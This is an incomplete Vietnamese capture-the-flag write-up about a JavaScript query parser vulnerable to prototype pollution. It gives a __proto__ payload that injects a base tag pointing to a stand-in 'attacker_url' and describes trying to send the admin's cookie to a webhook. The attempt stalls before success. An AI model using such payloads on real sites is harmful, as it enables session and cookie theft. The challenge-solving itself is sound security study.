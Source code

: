 ```python==
function parseQuery(query) {
	query = query.replace(/$\?/, "");
	const params = query.split("&");
	const result = {};
	for (const param of params) {
		const [key, value] = param.split("=").map(decodeURIComponent);
		if (key.includes("[")) {
			const parts = key.split("[").map((part) => part.replace(/]$/, ""));
			let curr = result;
			for (let part of parts.slice(0, -1)) {
				if (curr[part] === undefined) {
					curr[part] = {};
				}
				curr = curr[part];
			}
			curr[parts[parts.length - 1]] = value;
		} else {
			result[key] = value;
		}
	}
	return result;
}

```

Request đến nó nào
![image](https://hackmd.io/_uploads/ByPcYQD1lg.png)
![image](https://hackmd.io/_uploads/rkPrcQD1gx.png)
**đây là ban đầu**
![image](https://hackmd.io/_uploads/rk9acmDyex.png)
**lúc sau**
đây là điều mình muốn

```python!
{
    __proto__: {
        children: {
            0: {
                tag: "base",
                attributes: {
                    href: "attacker_url"
                }
            }
        }
    }
}
```

dùng tag `base` để thay đổi url ; Khi đó thay vì load `url` trang web thì đoạn `url` của attack sẽ được load lên
sau khi đã load các các `prortotype malicious` lên giờ sẽ làm gì đó để `admin` đọc được payload sau đó thực hiện `fetch` đến `webhook` mang theo món bánh mlem mlem
Khi reload trang phụ thì đã nhận được request đến `webhook` => đã thâu tóm được `prototype`
:::danger
Tuy nhiên việc của mình là lấy được cookie của admin cơ
:::
![image](https://hackmd.io/_uploads/BJfZQpwkge.png)
Reload lại trang web thì đã `fetch` được .
Gửi cho admin trang đã thâu tóm `prototype` nhưng vẫn không `fetch` được . Vậy do đâu .
...........
Hơi bí đợi writeup BTC vậy
:::danger